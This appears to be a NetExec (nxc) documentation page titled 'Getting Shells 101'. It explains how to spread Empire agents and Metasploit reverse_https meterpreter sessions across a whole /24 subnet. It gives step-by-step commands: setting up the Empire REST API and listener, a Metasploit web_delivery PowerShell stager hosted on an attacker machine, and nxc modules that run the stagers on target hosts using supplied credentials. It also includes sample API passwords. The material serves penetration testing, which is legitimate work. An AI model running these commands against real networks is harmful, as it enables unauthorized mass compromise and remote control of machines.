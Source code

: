 # Getting Shells 101

## Getting Shells 101

We all love shells and that's why nxc makes it as easy as possible to get them! There really is something magical about shelling a /24

## Empire Agent

{% hint style="info" %}
Use the new Empire in Python3 [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
{% endhint %}

We can use the `empire_exec` module to execute an Empire Agent's initial stager. In the background, the module connects to Empire's RESTful API, generates a launcher for the specified listener and executes it.

* First setup the rest API:

```bash
python powershell-empire --rest --user empireadmin --pass Password123!
[*] Loading modules from: /home/mpgn/Tools/Empire/lib/modules/
 * Starting Empire RESTful API on port: 1337
 * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
 * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)
```

* Second setup a listener:

```bash
(Empire: listeners) > set Name test
(Empire: listeners) > set Host 192.168.10.3
(Empire: listeners) > set Port 9090
(Empire: listeners) > set CertPath data/empire.pem
(Empire: listeners) > run
(Empire: listeners) > list

[*] Active listeners:

  ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
  --    ----              ----                                 -------   ------------   --------    ---------------
  1     test              http://192.168.10.3:9090                 native    5/0.0                      

(Empire: listeners) > 
```

The username and password that nxc uses to authenticate to Empire's RESTful API are stored in the nxc.conf file located at \~/.nxc/nxc.conf:

```bash
[Empire]
api_host=127.0.0.1
api_port=1337
username=empireadmin
password=Password123!

[Metasploit]
rpc_host=127.0.0.1
rpc_port=55552
password=abc123
```

* Then just run the `empire_exec` module and specify the listener name:

```bash
nxc 192.168.10.0/24 -u $USER -p $PASSWORD -M empire_exec -o LISTENER=test
```

## Meterpreter

We can use the `metinject` module launch a meterpreter using [Invoke-MetasploitPayload](https://github.com/jaredhaight/Invoke-MetasploitPayload) `Invoke-MetasploitPayload.ps1` script.

On your Metasploit instance, run the following commands

```bash
use exploit/multi/script/web_delivery
```

The SRVHOST and SRVPORT variables are used for running the webserver to host the script

```bash
set SRVHOST 10.211.55
set SRVPORT 8443
```

The `target` variable determines what type of script we're using. `2` is for PowerShell

```bash
set target 2
```

Pick your payload. In this case, we'll use a reverse https meterpreter payload

```bash
set payload windows/meterpreter/reverse_https
set LHOST 10.211.55
set LPORT 443
```

Run the exploit

```bash
run -j
```

Once run, the web\_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

```bash
msf exploit(web_delivery) > run -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.211.55.4:8443/
[*] Using URL: http://10.211.55.4:8080/eYEssEwv2D
[*] Local IP: http://10.211.55.4:8080/eYEssEwv2D
[*] Server started.
```

* Then just run the `met_inject` module and specify the LHOST and LPORT values:

```bash
nxc 192.168.10.0/24 -u $USER -p $PASSWORD -M met_inject -o SRVHOST=192.168.10.3 SRVPORT=8443 RAND=eYEssEwv2D SSL=http
```
